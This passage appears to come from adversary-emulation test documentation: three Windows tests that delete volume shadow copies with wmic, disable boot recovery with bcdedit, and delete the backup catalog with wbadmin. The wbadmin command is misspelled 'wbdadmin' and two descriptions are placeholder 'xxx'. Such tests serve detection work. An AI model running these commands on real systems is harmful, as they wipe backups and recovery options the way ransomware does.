 ## Atomic Test #11 - Delete VSS - wmic
Delete all volume shadow copies with wmic

**Supported Platforms:** windows


#### Run it with `command_prompt`!
```
wmic shadowcopy delete

```
<br/>
<br/>

## Atomic Test #12 - bcdedit
xxx

**Supported Platforms:** windows


#### Run it with `command_prompt`!
```
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no

```
<br/>
<br/>

## Atomic Test #13 - wbadmin
xxx

**Supported Platforms:** windows


#### Run it with `command_prompt`!
```
wbdadmin delete catalog -quiet
```
<br/>
